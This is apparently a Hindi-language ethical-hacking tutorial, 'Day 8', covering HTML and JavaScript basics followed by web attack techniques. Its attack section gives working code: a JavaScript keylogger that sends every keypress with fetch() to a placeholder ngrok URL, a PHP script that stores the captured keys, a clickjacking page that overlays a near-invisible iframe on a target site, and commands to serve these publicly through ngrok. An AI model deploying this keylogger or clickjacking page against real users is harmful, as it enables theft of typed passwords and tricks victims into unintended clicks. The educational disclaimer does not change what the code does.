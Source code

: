 # 🧠 Day 8 – HTML + JavaScript Basics & Web Attacks (Hindi Guide)

---

## 🔹 HTML + JavaScript Basics (हैकिंग के नजरिए से)

### 🧱 HTML क्या है?

* HTML (HyperText Markup Language) एक markup भाषा है जो webpages का ढांचा (structure) बनाती है।
* Webpage में क्या दिखेगा, कैसा दिखेगा, यह HTML तय करता है।
* इसमें हम elements या tags का उपयोग करते हैं:

  * `<html>` – पूरी HTML डॉक्यूमेंट की शुरुआत
  * `<head>` – meta जानकारी, title, CSS, JS इत्यादि
  * `<body>` – जो भी user को दिखाई देगा
  * `<h1>`, `<p>`, `<a>`, `<img>`, `<form>` आदि tags content को दर्शाते हैं।

### 🔧 JavaScript क्या है?

* JavaScript एक scripting language है जो webpages को dynamic और interactive बनाती है।
* JS HTML के साथ जुड़कर DOM (Document Object Model) को manipulate करता है।
* उदाहरण:

  * बटन क्लिक पर मैसेज दिखाना
  * form validation
  * input data को server पर भेजना

---

## 📋 HTML & JS Cheat Sheet (Quick Reference)

### 🔹 HTML:

| Tag        | Description                  |
| ---------- | ---------------------------- |
| `<html>`   | HTML document की शुरुआत      |
| `<head>`   | Header में meta, CSS, JS     |
| `<body>`   | Main visible content         |
| `<h1>`     | Heading level 1              |
| `<p>`      | Paragraph                    |
| `<a>`      | Anchor link                  |
| `<img>`    | Image insert                 |
| `<input>`  | Input field                  |
| `<button>` | Clickable button             |
| `<form>`   | Form creation                |
| `<script>` | JavaScript embed करने के लिए |

### 🔹 JavaScript:

| Syntax                          | Description                              |
| ------------------------------- | ---------------------------------------- |
| `alert("Hi")`                   | Pop-up message दिखाता है                 |
| `document.getElementById("id")` | किसी element को access करता है           |
| `addEventListener()`            | इवेंट पकड़ने के लिए जैसे click, keypress |
| `fetch(url)`                    | Server को data भेजने के लिए              |

---

## 🧪 HTML + JS Page Example:

```html
<!DOCTYPE html>
<html>
<head>
  <title>My First Page</title>
</head>
<body>
  <h1>👋 Welcome!</h1>
  <button onclick="alert('Hello User')">Click Me</button>
  
  <input id="username" type="text" placeholder="Your Name">
  <button onclick="sendData()">Send</button>

  <script>
    function sendData() {
      let name = document.getElementById("username").value;
      alert("You entered: " + name);
    }
  </script>
</body>
</html>
```

---

## 🔒 JavaScript Attack Techniques (Educational Purpose Only)

### 1️⃣ Keylogger (keyboard पर input capture करना)

#### 🔹 HTML Page (`keylogger.html`):

```html
<!DOCTYPE html>
<html>
<head><title>Keylogger Demo</title></head>
<body>
  <h2>Type Something:</h2>
  <input type="text" placeholder="Type here...">

  <script>
    document.addEventListener("keydown", function(e) {
      fetch("https://YOUR_NGROK_URL/log.php?key=" + encodeURIComponent(e.key));
    });
  </script>
</body>
</html>
```

#### 🔹 PHP Backend (`log.php`):

```php
<?php
if (isset($_GET['key'])) {
  file_put_contents("keys.txt", $_GET['key'] . PHP_EOL, FILE_APPEND);
}
?>
```

---

### 2️⃣ Clickjacking (user को छुपी चीज़ों पर click कराना)

#### 🔹 HTML Page (`clickjack.html`):

```html
<!DOCTYPE html>
<html>
<head><title>Clickjack Test</title></head>
<body>
  <h2>🎁 Claim Your Reward</h2>
  <button style="z-index:2; position:relative;">Click Me</button>

  <iframe src="https://target.com" style="
    opacity: 0.01;
    position: absolute;
    width: 100%; height: 100%;
    top: 0; left: 0;
    z-index: 1;"></iframe>
</body>
</html>
```

📌 iframe तभी काम करेगा जब target site iframe embedding को allow करे।

---

## 💻 Local Hosting Setup (Windows/Linux)

### 📁 Folder Structure:

```
web_attacks/
├── log.php
├── keys.txt
├── keylogger.html
├── clickjack.html
```

### ▶️ Server Start करने के लिए:

```bash
php -S 0.0.0.0:8080
```

### 🌐 Ngrok से Public Link:

```bash
ngrok http 8080
```

📎 Example URLs:

* `https://abc123.ngrok.io/keylogger.html`
* `https://abc123.ngrok.io/clickjack.html`

---

## ✅ Summary Table

| Technique    | Purpose             | Requires PHP | Dev Console Possible |
| ------------ | ------------------- | ------------ | -------------------- |
| Keylogger    | Keypress capture    | ✅            | ✅                    |
| Clickjacking | Hidden target click | ❌            | ❌                    |

---

## ⚠️ Disclaimer

यह document केवल educational purpose के लिए है। इसका उपयोग केवल वैध और ethical hacking अभ्यास के लिए करें। किसी unauthorized activity की जिम्मेदारी आपकी स्वयं की होगी।

---

## 📦 आगे क्या?

* ZIP बनवाने के लिए लिखें: `make zip`
* अगला दिन स्टार्ट करें: `start day 9`
* Extra attack जोड़ना हो: `add more attack`

Happy Learning! 🔐
